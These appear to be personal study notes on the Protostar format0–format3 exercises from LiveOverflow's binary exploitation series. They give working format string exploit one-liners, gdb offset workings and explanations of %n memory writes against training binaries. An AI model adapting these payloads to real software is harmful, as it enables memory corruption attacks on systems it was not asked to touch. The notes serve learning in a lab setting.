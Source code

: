 # LiveOverflow Binary Exploitation / Memory Corruption

### 0x10 Reversing C programs in 64bit vs 32 bit

Interesting walkthrough done on reversing executables in 64bit and 32bit while observing the differences and similarities in terms of the assembly code

### Format0

- Structure of stack (typically)

    ![](./images/stack.jpg)

- We can assume/RE and come to a conclusion that the buffer allocated in the stack comes before the

    ```
    (gdb) print &target
    $1 = (volatile int *) 0xbffffc9c
    (gdb) print &buffer
    $2 = (char (*)[64]) 0xbffffc5c
    ```

- printf outputs to stdout while sprintf outputs to a variable. Both equally vulnerable to format string attacks

- All we need to do is to overflow the buffer by sending a string of 64 chars + 0xdeadbeef

- We can optionally use a formatted string %64d instead of literally printing 64 chars to fill the buffer before overflowing to the target variable

- Answer:

    `/opt/protostar/bin/format0 $(python -c "print '%64d\xef\xbe\xad\xde'")`

    `/opt/protostar/bin/format0 $(python -c "print 'A'*64+'\xef\xbe\xad\xde'")`

### 0x11 Format String Exploit using Format1 Exercise

- Fundamentals:

    1. Format Strings allows you to specify variables as format paameters within the string itself.

    2. In the C language, if you use a format string without specifying format parameters, the compiler will take format parameters from memory, resulting in a format string attack which is essentially a memory leakage (similar to HeartBleed vulnerability)

    3. All we need to do is to print enough format parameters till we can find the location of our supplied parameters on the stack. Then, use the %n to write to the correct memory location

    4. We can use the following to get the memory location of variables (run the program and add a breakpoint):

        ```
        (gdb) whatis target
        type = int
        (gdb) info address target
        Symbol "target" is static storage at address 0x8049638.
        (gdb) x 0x8049638
        0x8049638 <target>:	0x00000000
        (gdb) print &target
        $3 = (int *) 0x80496f4
        (gdb) x/wx 0x80496f4
        0x80496f4 <target>:	0x00000000
        ```

        `objdump -t BINARY`

- Answer:

    CLI Version: `/opt/protostar/bin/format1 "$(python -c "import struct; print('AAAAAAAAAAAAAAAAAAAAAA' + struct.pack('I',0x8049638) + 'BB' + '%x_'*135 + '__%n')")"`

    GDB Version: `(gdb) r $(python -c "import struct; print('AAAAAAAAAAAAAAAAAAAAAA' + struct.pack('I',0x8049638) + 'BB' + '%x_'*136 + '______%n')")`

### Format2

- Same idea as format1, just that now we need to set a particular value to target

- For a given `%4$08n` format string, what the compiler will do is that it will directly access the 4th parameter on stack with "4$" and write the address (\xe4\x96\x04\x08) there with "%08n"

- Answer

    METHOD 1: `python -c "import struct;print('AAAA'+struct.pack('I', 0x080496e4)+'BBBBBBBBBBBBBBBBBBBBB'+'%x__'*4 + '%n')" | /opt/protostar/bin/format2`

    METHOD 2: `python -c 'print "\xe4\x96\x04\x08" + "%60d" + "%4$n"' | /opt/protostar/bin/format2`

### Format3

- Same idea as format2 but we can't do it using method 1 as the value to write to memory is too huge

- Have to use method 2, but there's actually 3 different ways to do it:

    1. 4byte

        - No difference from method 2

        - `python -c 'print "\xf4\x96\x04\x08" + "%16930112x" + "%12$n"' | /opt/protostar/bin/format3`

        - Use gdb to calculate offset `(gdb) print 0x01025544 - 0x04`

    2. 2byte

        - Did not really understand the method that they used:

            `python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%250x%13$hn" + "%21570x%12$hn"' | /opt/protostar/bin/format3`

        - Improvised from 1byte method

            `python -c 'print "\xf4\x96\x04\x08" + "\xf6\x96\x04\x08" + "%21820x%12$n" + "%43966x%13$n" ' | /opt/protostar/bin/format3`

        - Workings

            ```
            0x(0008)[0008]
            0x0102|5544|
            
            (gdb) print |0x5544| - [0x8]
            $11 = 21820
            
            0x{5544}5544 -> answer
            
            (gdb) print 0x#10#102 - {0x5544} -> ## added cause its negative
            $16 = 43966
            ```

    3. 1byte

        - `python -c 'print "\xf4\x96\x04\x08" + "\xf5\x96\x04\x08" + "\xf6\x96\x04\x08" + "\xf7\x96\x04\x08" + "%52x%12$n" + "%17x%13$n" + "%173x%14$n" + "%255x%15$n"' | /opt/protostar/bin/format3`

### SSH problem fix (no matching host key type found)

ssh -oHostKeyAlgorithms=+ssh-dss XXX@XXX.XXX.XXX.XXX

### References

https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-2-73ef08011a8c

https://infosecwriteups.com/expdev-exploit-exercise-protostar-format-3-33e8d8f1e83

https://stackoverflow.com/questions/4462915/find-the-exact-address-of-variable-buf

https://darkdust.net/files/GDB%20Cheat%20Sheet.pdf

https://askubuntu.com/questions/836048/ssh-returns-no-matching-host-key-type-found-their-offer-ssh-dss

https://askubuntu.com/questions/1222835/lubuntu-18-04-cant-ssh-to-cisco-router-no-matching-key-exchange-method-found?rq=1
